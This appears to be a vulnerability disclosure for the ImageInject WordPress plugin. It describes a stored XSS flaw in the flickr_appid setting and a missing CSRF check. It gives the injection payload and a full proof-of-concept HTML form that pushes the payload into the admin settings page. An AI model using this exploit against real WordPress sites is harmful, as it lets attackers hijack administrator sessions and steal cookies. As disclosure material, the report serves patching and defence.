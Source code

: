 Well ,sir ,I just found a Stored-XSS bug and a CSRF bug here.

The report link to the wordpress-form is missing, because the manager do not wish to put the public in danger ,I'll just write some details here.

#### Stored-XSS

When the admin user click the "Save All Settings" button in the ImageInject setting page, we'll post some data to:

```
http://localhost/wordpress/wp-admin/options-general.php?page=wpdf-options
```
![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/ImageInject/button.png)

But when I pentest the  parameter in this plugin, I found when I write something into this point, it does not filter well.

Weak data parameter:

```
flickr_appid=test'"><svg/onload=console.log(/xss_at_image_inject_appid/)><'"
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/ImageInject/insert-xss.png)


#### CSRF

Well, the stored-xss here need to combined with a csrf bug. Because no csrf protection here, we can cheat the admin user to visit the evil html on the evil site.

POC:

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost/wordpress/wp-admin/options-general.php?page=wpdf-options" method="POST">
      <input type="hidden" name="flickr&#95;enabled" value="1" />
      <input type="hidden" name="flickr&#95;appid" value="test&apos;&quot;&gt;&lt;svg&#47;onload&#61;console&#46;log&#40;&#47;xss&#95;at&#95;image&#95;inject&#47;&#41;&gt;&lt;&apos;&quot;" />
      <input type="hidden" name="flickr&#95;license" value="test" />
      <input type="hidden" name="flickr&#95;sort" value="relevance" />
      <input type="hidden" name="pixabay&#95;enabled" value="1" />
      <input type="hidden" name="pixabay&#95;image&#95;type" value="all" />
      <input type="hidden" name="general&#95;save&#95;images" value="1" />
      <input type="hidden" name="general&#95;feat&#95;img&#95;size" value="medium" />
      <input type="hidden" name="general&#95;default&#95;align" value="none" />
      <input type="hidden" name="general&#95;attr&#95;location" value="caption" />
      <input type="hidden" name="general&#95;items&#95;per&#95;req" value="40" />
      <input type="hidden" name="advanced&#95;img&#95;template" value="&lt;img&#32;title&#61;&quot;&#123;title&#125;&#32;by&#32;&#123;author&#125;&quot;&#32;alt&#61;&quot;&#123;keyword&#125;&#32;photo&quot;&#32;src&#61;&quot;&#123;srs&#125;&quot;&#32;&#47;&gt;" />
      <input type="hidden" name="advanced&#95;attr&#95;template" value="&lt;small&gt;Photo&#32;by&#32;&lt;a&#32;href&#61;&quot;&#123;link&#125;&quot;&#32;target&#61;&quot;&#95;blank&quot;&gt;&#123;author&#125;&lt;&#47;a&gt;&#32;&#123;cc&#95;icon&#125;&lt;&#47;small&gt;" />
      <input type="hidden" name="advanced&#95;attr&#95;template&#95;multi" value="&lt;small&gt;Photos&#32;by&#32;&#123;linklist&#125;&lt;&#47;small&gt;" />
      <input type="hidden" name="advanced&#95;filename&#95;template" value="&#123;filename&#125;&#95;&#123;keyword&#125;" />
      <input type="hidden" name="save&#95;options" value="Save&#32;All&#32;Settings" />
      <input type="hidden" name="" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

In a word, if the manager could be cheated to visit my evil html on my site, I can get the manager's cookie easily, or do something more evilly.


Well,  by the way, I just test the bug in the wordpress 4.9.1 and the latest version of the wp-plugin ImageInject.
